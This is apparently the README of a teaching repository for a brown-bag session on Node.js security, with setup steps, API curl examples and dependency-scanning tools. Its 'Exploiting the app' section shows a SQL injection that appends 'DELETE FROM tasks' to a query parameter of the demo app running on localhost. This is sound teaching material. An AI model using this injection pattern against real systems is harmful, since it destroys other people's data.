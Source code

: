 # node-security-brown-bag
Scenarios for the brown bag session about secure node applications

## Badges

Snyk: [![Known Vulnerabilities](https://snyk.io/test/github/sdepold/node-security-brown-bag/badge.svg)](https://snyk.io/test/github/sdepold/node-security-brown-bag)

NSP: [![NSP Status](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee/badge)](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee)


## Setup
The following steps have been made to initialize the project:

```
npm install -g express-generator
cd node-security-brown-bag
express -f
yarn add sequelize@3.16 mysql
yarn add --dev sequelize-cli
node_modules/.bin/sequelize init
node_modules/.bin/sequelize model:create --name Task --attributes title:string
```

## API

```
# Reading all tasks
curl "http://localhost:3000/tasks"

# Reading a limited amount of tasks
curl "http://localhost:3000/tasks?limit=2"

# Creating a task
curl "http://localhost:3000/tasks" -d '{"title":"Some title"}'  -H 'content-type:application/json'
```

## Exploiting the app

```
curl "http://localhost:3000/tasks" -d '{"title":"some task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" -d '{"title":"some other task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" # Renders all tasks
curl "http://localhost:3000/tasks?limit=1" # Renders only a single task
curl "http://localhost:3000/tasks?limit=1;DELETE%20FROM%20tasks" # Will delete the tasks due to vulnerability
curl "http://localhost:3000/tasks" # Renders all available (aka no) tasks
```

## Security checks

### nsp

website: https://nodesecurity.io/

```
npm install --save-dev nsp
nsp check --output summary
```

### Retire.JS

Website: http://retirejs.github.io/retire.js/
Description: Walks through all the installed (!) dependencies and checks if they are vulnerable.

```
npm install --save-dev retire
retire
```

### Snyk

Website: https://snyk.io

```
npm install -g snyk
snyk wizard
snyk test
```

